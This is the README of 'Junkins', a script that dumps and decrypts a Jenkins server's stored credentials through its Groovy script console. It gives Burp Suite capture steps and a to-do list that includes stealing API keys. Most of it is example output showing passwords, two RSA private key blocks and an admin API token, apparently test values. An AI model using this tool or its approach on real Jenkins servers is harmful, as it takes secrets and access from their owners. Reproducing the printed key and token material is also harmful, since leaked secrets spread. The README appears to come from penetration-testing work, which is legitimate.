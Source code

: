 ### Junkins

I created this script to automate my Jenkins server credential store decrypting.

### Files

- `junkins.py`: This is the script itself.
- `postdata`: This file contains the Jenkins generated post data.
- `plain_postdata`: This is the orignal Jenkins groovy script. 

### Customizing

1. To customize your groovy script you'll need to modify the `plain_postdata` file. 
2. Once you've modified it, navigate to a Jenkins system on /script, and paste in the new groovy script. 
3. Fire up Burp Suite to capture the post. 
4. Submit your modified script to the server by clicking "Run". 
5. Once you've captured the post in Burp Suite, copy this new data into the `postdata` file. 

### Required

Parsing the script output requires the BeautifulSoup Python library.

### TODO

- [ ] Add CSRF 'Crumb' support.
- [ ] Add proxy server command line argument support.
- [ ] Add support to automate the creation of the `postdata` file.
- [ ] Add support to detect local users to steal API keys. 
    - Currently the code assumes the user 'admin' exists as a PoC.
- [ ] Add support for the addtional Jenkins credential types.
- [x] Parse command output from Jenkins server with BeautifulSoup.

### Example output:

```
python junkins.py  http://jenkins-server/script/
Credentials store dump:

username: testuser
password: testpassword

username: testuser_key
privatekey:
-----BEGIN RSA PRlVATE KEY-----
MIIEpAIBAAKCAQEAyLN2P5iv1gc7y3O0h1QsBlCpj0W+HQFJsfQC3b7m6j28ZHS7
QfUDGwya1Wx8dlCvTckwwzX+Bg26G7F6C9GQmSXgYF+dlsKgSnUp/60AcXdzaSyE
u5rqExFOdzd6kd2gbE1wwK0lg6iFObdiuJM3B5WYDSYc9KeopP0ve17nszrpEuNq
G8GXqeZu9Fq9QgibDhAQ3I/N0EDqf4dHv5PhLSinP2zmmyKSrHMmUIW0rpxUaU1o
f7FR1X8U/BTeBPyodAGnE2PHkdzCGYfOTl/PqNcATGHejYxwMaUKDaliNql9duuL
vNs9djI8PEEMYmuoKZ/HN9rMGFrG+mt7RgD0nwIDAQABAoIBAD9sJsP2FirGYmjq
iXPyb28Xcl2qJme4DnfDqlw0hXgkRjJgiQRQzshvdUZYYARrftpP567okvuKvvMd
ZHnzoYQj6gHKdVw86LZezATVwLwaiUgFH3TBgZLA91DJIVyS8q0G08ivbplqWZ9h
ijrVmqA077XIA4J0sOBieey8ku+Z8FaarWdB/7g1AQslYT+Y3b0j6AWeIar82gXQ
rAF8NCugUPwSBnfUbvQtbLCaLP8uV2VqXppWhVgOQ29ynAeUgjGqxprL279/ZI0B
vRljoSp8ikQT+5jOW4RDEY0o2xGmh54R4QoG7Ob9DVRx/8HwiO25/1ls/jcy8GYs
sZGr6WECgYEA966kc2F24UUUdFcYdx4ecn7qZkxkwynm6p9Xg7FxvLRSNKnJU1xH
d/4JdrogsYxAY+EOvvvk85rCA9/Y1ZPn9WW4nPBl0pjaEyEQN1VUBqlznv6Bk3JL
00//CsPP4JMUTfn7bn90WYqlvuje0jqQdlIruj/ePca2xHs7Rn0+MrcCgYEAz3Dq
fMXrMquqYgz/qsXekmU/Q6Zd7dWdQa2rk96QoYURuWjHtm1fSPQ5XiCB95J1Xyry
DB+iWBEDFjs8XF8s2yDp+pEf2DQug/+IvukEVjwozbQ/k84ehEZo1h94cZAuQCsQ
UFFBILakvN5OcmAFlTKRj67b5vI5CoSQdBf6RVkCgYAh1fjfTkxIQACoWBGejD3K
lG3/JaaKRtol6TiyY/ZOui+UxDEdsziMOuceEhVPTAKr4l36Vz0Sz3x8zQK5Qqho
jMnonqq6V2lLPbQSaxS8iD+kU85tzypuproHxXJLkqwubt0bXkwNw3QbHYL7I0cC
8vzIR9tbgx8Kvm79lTR/BwKBgQCuKWBF16mLRkNrxPwWdcBTavv9oT01RGaeUOA/
6tnFMkLaRtV+HT+lsZ5En8hegjFW8Gh9s0WK6OWNkbgw2ZuAcpbfT17MF6uCGVXG
6z4/5IxhgFbskl5esfqs44ks119tcnpk5INoos+W3pJARswJIobBeo6XzIAFi5z4
S3VNKQKBgQCmm9wva5lY6nynj7iAlg0z44xZ2wcEARmEXnSbUjaBJ0s+VjyCnE1V
t34ay3A3Et8ZO6cx57NlWPZ9sYqZ6J+9IcfshGRWb3W5tFWZ7LXmmOhX1+KVmIjY
dYfxSwlUmnNIye2s9FA1wCxQYvfD/D4+YGjBuFsnUPwlhhUqC6QSEg==
-----END RSA PRlVATE KEY-----


username: testuser_key_withpassphrase
passphrase: testpassphrase

privatekey:
-----BEGIN RSA PRlVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,ECF34585F755D68F9111EEFABA777921

B8BJrH0tIFJQS26Q7DGluZwfzPB17YDl5pNvHMxoNITtmJn3xtNZQ+t68Qz61Qu1
R/MyKhCQFo3Oc8Z5TXDH6ZuUQWpQA7Uy7D4qdchCQdTi/nqnIfQ2jTMweSLsa0/f
XcKimsh23ldGnT9vu7b21PDms2RFJlEJNFPH6lqSYU0LScyZF/m3EOspQKqus3Gd
JjEB6Aw3VrlVj0Fl8MRpbVsOReILLby6+UgpoHScSrOtp4wHLL5sLhqEhg4X6azn
JqDjhcSMKUklPQS2B1dVSgSYderNuR6C8nV5D7vRkUvHZZth47PTtXQbKi7tXbpj
o/4s9N0tpaqfQIDFvYHuVncDbatENj8EAKiW/VqfQAIbh9ibPYFTu1/Gy9iv5HoL
1qujx7gxX1qt88fF4kwLffBi4V850qpR/SxdLh/2tOU6DbyybEf+W4XAEZG+ruKL
PaGjw3EYG34KYFELp0UxC5++vRkB9aaNx1htaFDGhEnYRAzWtd4Ew/Jgxp0y1BRz
JxjQIYMazDvz/h+MVoQIR5ThOEb8iXxnSiDtVcvJiBRMFXIuUmmYnkdA/77nzWNW
pZK5xyjLnRbcAvrFfT6vBixRGIOUODZCcI6aWeY+wgpHxgHXvIHk7D3nuAXTKJ1p
L2Jx8p28qIeMNv3wyuTV1qs2CTabiMDN2fOWRCHYa53vmN1BWV6g8xG52ycJEHEc
8xzNcv5uKriEoBxMWQccKoCHsYbssedXKkvgXswHvbYHHMRX85hc5qwrMbp+/GKo
Rk1+hNIDBJ2jzYiQd34NwQmDiiB0afcETMTtosIjY0fLnz0axpt3rfXM6QaEe2RT
JCAmpsR00Nc0H17ECqt2DP88nmkqKpjY2LWt8yqQzPZipV9TAsFuAxsna46ObTB/
N32+xhq9IKrZVLd2ogeyH+uH8aESmM//xVRNKRAaFFgBgs/idvVrnbhjRxcTFx30
mG+aYDviUH9GOsFkyCXAJ2PHPDIF5ExQAEtZUCQHDcu+JZWuh/nSzgXYLKyeywZU
Jjs9QEEIJeykOaLFdjAwZ98K6oWIvr5WA+QeCGmINP3ycMImEcTl23Ky+5EGHkPc
vwu8jbHdHrF2uxYHCYJfJrMAHxPL9QMP5oxsJ1GWq4VlQI4A6BDyh+jvJrjKoFQx
FfTKupjl9PykvslzACgyV6Zmg8wY+xL0urH2udj4lkXTk7yX9SGf7qxFcuVCcxDs
2dycISkD53TkejBic72zuk6OQcVIdqLaMlXAnWSCFvJTew2rXTHqPTw88sAeZI6M
Nfr0XO7NseW0vdtg/Gdwo4YwzOhF0pR52Xr1mTGyhX5p4/FkRbVyDAvBwvpCd7Ep
vDVcMi+vpS2UVSpbJ5Kb083B6QGHpdAPTP1ye+HhRyYSBna4lcVz4KaDxkefZa/G
lP1pL1BmeOZo9DexOiCqgi8uv/I4YDqIHilL9wuxqZWZUeNCZ+IFV4iOHQcBgKVr
gT2YSW6cm7oTbWBb8rxMoLlHwMAUNM8siO64HhwB8EHEyFWaxY3J+i5V0gZyqUOS
p/NsjfyK5g5XoPXaVUv8uPOGQPL/nM1Nt8EwYB2DEbhCBifUKWK9gL4kRvbgFQcY
-----END RSA PRlVATE KEY-----


admin user apiToken: 52d3270b90ab33f6021f7f9559a200ad
```
